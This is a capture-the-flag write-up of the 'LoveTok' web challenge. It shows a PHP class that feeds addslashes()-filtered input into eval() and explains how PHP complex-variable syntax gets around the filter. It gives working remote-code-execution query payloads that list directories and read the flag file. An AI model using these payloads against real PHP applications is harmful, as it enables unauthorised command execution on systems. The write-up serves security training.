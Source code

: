 # LoveTok

True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛

<figure><img src="../../.gitbook/assets/image (241).png" alt=""><figcaption></figcaption></figure>

If we try to change the GET parameter manually we obtain different results:

<figure><img src="../../.gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

If we inspect the code:

{% code title="TimeModel.php" overflow="wrap" %}
```php
<?php
class TimeModel
{
public function __construct($format)
{ 
$this->format = addslashes($format);

[ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
$this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
}

public function getTime()
{
eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
return isset($time) ? $time : 'Something went terribly wrong';
}
}
```
{% endcode %}

The function `addslashes()` return a string with backslashes in front of predefined characters.

The predefined characters are:

* single quote (')
* double quote (")
* backslash (\\)
* NULL

<figure><img src="../../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

Here the vulnerable code is this single line:

{% code overflow="wrap" %}
```php
eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
```
{% endcode %}

Just like SQL injection, we should be able to end the quote and add our malicious code into the eval() as shown below. The highlighted part of the code is the value I could have added from my parameter to end the quote and do a system call resulting in RCE:

{% code overflow="wrap" fullWidth="true" %}
```php
eval('$time = date("");system("ls /")//", strtotime("'' . $this->prediction . '"));');
                    ^^^^^^^^^^^^^^^^^^^

```
{% endcode %}

Just remember that there is an `addslashes()` that will sanitize our input. We may use other ways to bypass it. Use of URL encoding will not work as $\_GET will automatically decode our encoding before running addslashes(). I came across an interesting article to bypass addslashes() using a _<mark style="color:red;">**complex variable**</mark>_. Basically, complex variables will utilize:

* double quotes (“)
* &#x20;$ variable in them&#x20;
* {} barriers.

<figure><img src="../../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>

First we can try to execute `phpinfo()` function using complex variable syntax:

<figure><img src="../../.gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

If we try to use directly the command that we want to execute we receive a blank page because the `addslashes()` break the code with escaping single quote:

<figure><img src="../../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

```
?format=${system($_GET[c])}&c=ls -lah
```

<figure><img src="../../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

We can see the prettyfied output using CTRL+U:

<figure><img src="../../.gitbook/assets/image (248).png" alt=""><figcaption></figcaption></figure>

List files under root directory:

```
?format=${system($_GET[c])}&c=ls -lah /
```

<figure><img src="../../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

Print the content of flag:

```
?format=${system($_GET[c])}&c=cat /flagUUR3k
```

<figure><img src="../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>
